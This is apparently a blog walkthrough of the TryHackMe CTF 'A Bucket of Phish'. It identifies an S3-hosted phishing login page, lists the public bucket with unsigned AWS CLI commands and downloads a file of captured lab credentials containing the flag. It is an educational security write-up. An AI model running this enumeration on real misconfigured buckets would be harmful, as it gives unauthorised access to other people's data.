 ```yaml
---
title: "A Bucket of Phish CTF TryHackMe Walkthrough"
slug: a-bucket-of-phish
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


![](https://github.com/j4ke-exe/j4ke.io/blob/main/assets/media/a-bucket-of-phish-banner.jpeg){: .center-image }

In this TryHackMe CTF challenge, A Bucket of Phish, we’ll go step-by-step through finding and exploiting a misconfigured AWS S3 bucket. The bucket hosts a static version of a CMail login page, and with a bit of investigation, we’re able to dig deeper and ultimately pull a list of compromised users.

<br>
## Step 1: Initial Recon

Target domain:

```bash
http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

![](https://github.com/j4ke-exe/j4ke.io/blob/main/assets/media/a-bucket-of-phish-cmail.jpeg){: .center-image }

We inspect the website content to understand what kind of application is hosted.

```bash
curl http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Cmail Webmail Login</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f4f4f9;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .login-container {
            background-color: white;
            padding: 40px;
            border-radius: 8px;
            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
            width: 100%;
            max-width: 400px;
        }
        .login-container h1 {
            text-align: center;
            color: #333;
            margin-bottom: 20px;
        }
        .login-container input[type="text"],
        .login-container input[type="password"] {
            width: 100%;
            padding: 12px;
            margin: 10px 0;
            border: 1px solid #ddd;
            border-radius: 4px;
            box-sizing: border-box;
            font-size: 14px;
        }
        .login-container button {
            width: 100%;
            padding: 12px;
            background-color: #4CAF50;
            color: white;
            border: none;
            border-radius: 4px;
            font-size: 16px;
            cursor: pointer;
        }
        .login-container button:hover {
            background-color: #45a049;
        }
        .login-container .footer {
            text-align: center;
            margin-top: 20px;
            font-size: 14px;
            color: #666;
        }
    </style>
</head>
<body>

<div class="login-container">
    <h1>Cmail Login</h1>
    <form action="/login" method="POST">
        <label for="email">Email Address</label>
        <input type="text" id="email" name="email" placeholder="Enter your email" required>

        <label for="password">Password</label>
        <input type="password" id="password" name="password" placeholder="Enter your password" required>

        <button type="submit">Login</button>
    </form>

    <div class="footer">
        <p>Forgot your password? <a href="/reset-password">Reset it here</a></p>
    </div>
</div>

</body>
</html>
```

### Observations:
- The page displays a styled HTML login form for **CMail Webmail**.
- The form action points to `/login`, and there's a password reset link to `/reset-password`.
- However, because this is hosted on **Amazon S3 static website hosting**, it doesn't support dynamic back-end functionality.

```bash
curl http://darkinjector-phish.s3-website-us-west-2.amazonaws.com/reset-password
```

```html
<html>
<head><title>404 Not Found</title></head>
<body>
<h1>404 Not Found</h1>
<ul>
<li>Code: NoSuchKey</li>
<li>Message: The specified key does not exist.</li>
<li>Key: reset-password</li>
<li>RequestId: EN4SKKZ1VKK91P9T</li>
<li>HostId: eGjEBRKU/BUWSzBefb8eYERlkKeG4qeKb0TT3IFWzraJibJsV6oqqt/j5nuCdojgAcTw1TqwGHY=</li>
</ul>
<h3>An Error Occurred While Attempting to Retrieve a Custom Error Document</h3>
<ul>
<li>Code: NoSuchKey</li>
<li>Message: The specified key does not exist.</li>
<li>Key: error.html</li>
</ul>
<hr/>
</body>
</html>
```

<br>

## Step 2: Validate Hosting Type

We verify the type of hosting and server technology by viewing headers:

```bash
curl -I http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

```bash
HTTP/1.1 200 OK
x-amz-id-2: y6mmGEQad0NaD02ile8U97LzaR89gBpdoWeLojjLKGEKKauo2+qSGRSewEWQX5JO4c0BZBeZ3/c=
x-amz-request-id: HGSZRZX8MAQCVP1N
Date: Fri, 23 May 2025 20:53:58 GMT
Last-Modified: Mon, 17 Mar 2025 06:25:33 GMT
ETag: "3b392b5fc343b899cc3d67b6ecb2d025"
Content-Type: text/html
Content-Length: 2300
Server: AmazonS3
```

### Response:
```
Server: AmazonS3
```

This confirms the website is served directly from an S3 bucket.

<br>

## Step 3: Enumerate the S3 Bucket

Amazon S3 static websites often use the format:
```
http://<bucket-name>.s3-website-<region>.amazonaws.com
```

From this, we can identify the bucket name:
```
darkinjector-phish
```

We attempt to list contents without authentication (public enumeration).

```bash
aws s3 ls s3://darkinjector-phish --recursive --no-sign-request
```

### Output:
```
2025-05-23 19:58:04     4912 index.html
2025-05-23 20:01:17     1456 captured-logins-093582390
```

<br>

## Step 4: Retrieve the Flag

Download the file titled `captured-logins-093582390`.

```bash
aws s3 cp s3://darkinjector-phish/captured-logins-093582390 ./ --no-sign-request
```

```bash
cat captured-logins-093582390
```

```bash
user,pass
munra@thm.thm,Password123
test@thm.thm,123456
mario@thm.thm,Mario123
flag@thm.thm,THM{REDACTED}
```

<br>

### Notes & Lessons Learned

- Static S3 websites **do not support server-side logic**. Attempting `/login` or `/reset-password` will fail or return 404 errors.
- If the bucket is public, you can **list and download files without authentication** using `--no-sign-request`.
- Always validate headers and structure to determine if the target is an S3 static site.
- This is a **common misconfiguration vulnerability** in cloud storage security.

<br>

### Installation of `awscli`:

**macOS (Homebrew):**
```bash
brew install awscli
```

**Kali Linux / Debian-based:**
```bash
sudo apt update && sudo apt install awscli
```

**Windows PowerShell:**
```powershell
msiexec.exe /i https://awscli.amazonaws.com/AWSCLIV2.msi
```

<br>

## Responsible Disclosure

If you encounter this in the real world outside of a CTF or test environment, **always disclose responsibly** through a coordinated vulnerability disclosure program or the organization’s security contact.
